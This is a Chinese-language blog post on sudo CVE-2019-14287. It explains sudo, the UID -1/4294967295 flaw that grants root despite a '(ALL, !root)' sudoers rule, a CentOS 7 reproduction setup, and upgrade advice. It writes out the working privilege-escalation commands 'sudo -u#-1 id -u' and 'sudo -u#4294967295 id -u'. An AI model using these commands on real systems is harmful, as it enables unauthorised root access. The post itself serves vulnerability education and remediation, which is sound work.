



# linux CVE-2019-14287 Sudo 提权漏洞 - yunying - 博客园

> 原文：[`www.cnblogs.com/BOHB-yunying/p/11691250.html`](https://www.cnblogs.com/BOHB-yunying/p/11691250.html)

# CVE-2019-14287

## sudo 介绍

sudo，也就是以超级管理员身份运行（superuser do）的意思。sudo 是 Linux 中最常使用的重要实用程序之一，它功能十分强大，几乎安装在每一款基于 UNIX 或 Linux 的操作系统上，也是这些操作系统的核心命令。作为一个系统命令，普通用户可通过它以特殊权限来运行程序或命令（通常以 root 用户身份运行命令），而无需切换使用环境。

*   § sudo 能够限制用户只在某台[主机](https://baike.baidu.com/item/%E4%B8%BB%E6%9C%BA)上运行某些命令。
*   § sudo 提供了丰富的日志，详细地记录了每个用户干了什么。它能够将日志传到中心主机或者日志服务器。
*   § sudo 使用[时间戳](https://baike.baidu.com/item/%E6%97%B6%E9%97%B4%E6%88%B3)文件来执行类似的“检票”系统。当用户调用 sudo 并且输入它的密码时，用户获得了一张存活期为 5 分钟的票（这个值可以在编译的时候改变）。
*   § sudo 的配置文件是 sudoers 文件，它允许系统管理员集中的管理用户的使用权限和使用的主机。它所存放的位置默认是在/etc/sudoers，属性必须为 0440。

## 漏洞介绍及其利用

此漏洞可以使受限制的用户运行 root 命令，1.8.28 之前的 sudo 版本均会受到影响，此漏洞的利用需要使用户**具有 sudo 的权限。**

漏洞影响版本：1.8.28 之前

利用此 sudo 漏洞的前提是规定安全策略设置如下:

```
yunying = (ALL, !root) /bin/bash  
```

意思为:规定 yunying 用户可以以除了 root 以外的用户身份去执行//bin/bash 命令

据悉，该漏洞由苹果信息安全部门的 Joe Vennix 追踪发现（漏洞的 CVE ID 为 [CVE-2019-14287](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287) ）。如果想要利用这个漏洞，只需按以下的方式运行即可：

```
sudo -u#-1 id -u
```

或者

```
sudo -u#4294967295 id -u
```



 之所以会产生这个漏洞，是因为将用户 ID 转换为用户名的函数会将 -1（或无效等效的 4294967295）误认为是 0，而这正好是 root 用户 User ID 。此外，由于通过 -u 选项指定的 User ID 在密码数据库中不存在，因此不会运行任何 PAM 会话模块。

## 漏洞复现

靶机:centos7

sudo 版本:

创建一个普通用户 yunying

```
useradd yunying   // useradd -d /usr/yunying -m yunying  选项可以创建一个用户目录
passwd  yunying
```

赋予 root 用户写的权限，编辑/etc/sudoers，增加 yunying 用户,设置前提权限



正常切换至 yunying 用户执行 bash 命令


 利用漏洞以 root 用户执行 bash 命令

## 修复建议

```
升级到 sudo 1.8.28 检索/etc/sudoers 是否存在 ALL 关键词的复合限制逻辑

centos 升级命令: yum update sudo
```